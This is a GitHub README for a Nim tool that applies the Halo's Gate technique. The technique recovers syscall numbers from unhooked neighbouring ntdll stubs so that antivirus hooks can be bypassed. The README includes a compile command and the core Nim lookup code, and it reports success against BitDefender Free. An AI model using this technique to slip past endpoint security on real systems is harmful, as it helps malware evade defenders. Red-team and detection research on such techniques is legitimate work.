


# HalosGateNim

A quick example of the Halo's Gate technique in Nim

Forked from <https://github.com/zimawhit3/HellsGateNim> and modified to implement [Sektor7's Halo's Gate technique](https://blog.sektor7.net/#!res/2021/halosgate.md)

## Usage

Just compile the code :

```Bash
nim c -d:mingw -passL:-Wl,--image-base --passL:-Wl,0x10000000 HalosGate.nim
```

## Demonstration

Using x64dbg, we can see that NtWriteVirtualMemory is hooked (using BitDefender free for the demo) using the usual jmp way:



If we use the "classic" Hell's Gate implementation, it won't work:


I modified the code to use Sektor7's Halo's Gate technique to search for unhooked neighbours:

```Nim
            elif cast[PBYTE](cast[ByteAddress](pFuncAddr))[] == 0xE9:
                for idx in countup(1,500):
                    if cast[PBYTE](cast[ByteAddress](pFuncAddr) + 3 + idx * UP)[] == 0xB8:
                        tableEntry.wSysCall = cast[PWORD](cast[ByteAddress](pFuncAddr) + 4 + (idx * UP))[] + cast[WORD](idx)
                        return true
                    if cast[PBYTE](cast[ByteAddress](pFuncAddr) + 3 + idx * DOWN)[] == 0xB8:
                        tableEntry.wSysCall = cast[PWORD](cast[ByteAddress](pFuncAddr) + 4 + (idx * DOWN))[] - cast[WORD](idx)
                        return true
```

If we retry after modifying the code, it works:



Tested to be working on recent version of Windows 10/11 against BitDefender Free.
